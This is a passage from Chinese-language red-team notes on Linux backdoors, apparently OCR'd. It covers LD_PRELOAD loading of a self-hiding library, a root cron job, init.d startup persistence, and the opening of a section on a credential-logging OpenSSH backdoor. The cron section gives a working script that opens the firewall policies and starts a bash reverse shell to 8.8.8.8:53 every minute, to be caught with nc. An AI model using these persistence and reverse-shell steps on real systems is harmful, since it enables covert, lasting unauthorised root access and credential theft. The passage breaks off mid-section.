 > **原理** 系统在执行一些命令的时候,在真正执行其文件之前,会加载相应的动态链接库,但是Liux系统提供了
> 一个可以加载自定义动态链接库的方式;并且比加载正常动态链接库更早,故可以利用此特点自定义加载恶意动态链库。

```bash
export LD_PRELOAD=/usr/lib/cub3.so.1  # https://github.com/mempodippy/cub3
```

cub3so.1是一个可以隐藏白己的动态链接库,当设出了预加载动态链接库时,在执行命令的时候即可隔藏白己

![image-20200329164201375](/Users/dawson0x00/Desktop/红蓝对抗/Linux后门.assets/image-20200329164201375.png)



### 12. Crond 开机自启后门

先创建 /etc/xxxx 脚本文件(名字自己改),利用该脚本进行反弹.以下脚本代表全自动反弹到 8.8.8.8 的 53 端口.

```vim
vim /etc/xxxx
    #!/bin/bash
    if netstat -ano|grep -v grep | grep "8.8.8.8">/dev/null
    then
    echo "OK">/dev/null
    else
    /sbin/iptables --policy INPUT ACCEPT
    /sbin/iptables --policy OUTPUT ACCEPT
    bash -i >& /dev/tcp/8.8.8.8/53 0>&1
    fi

chmod +sx /etc/xxxx
```

```vim
vim /etc/crontab
    */1 * * * * root /etc/xxxx

service cron reload #不同发行版重启方式不一样
service cron start
```

然后在 8.8.8.8 的服务器上使用 NC 接收 Shell 即可.

###13. 开启启动项执行特定脚本

需要开机启动自己的脚本时，只需要将可执行脚本丢在 `/etc/init.d` 目录下，然后在 `/etc/rc.d/rc*.d` 中建立软链接即可

```
ln -s /etc/init.d/sshd /etc/rc.d/rc3.d/S100ssh
```

此处 sshd 是具体服务的脚本文件，S100ssh 是其软链接，S 开头代表加载时自启动；如果是 K 开头的脚本文件，代表运行级别加载时需要关闭的。

###14. 低版本OpenSSH编译后门 

> **我们来看一个最原始的OpenSSH后门，该后门是通过补丁的方式修改openssh，并且重新编译替换了sshd，与Ebury后门相似的是都可以记录用户的账号名密码，只不过该后门功能上远远不如Ebury，也没有相应的隐藏功能。**
>
> **注**：此版本只支持 ssh 5.6以下的
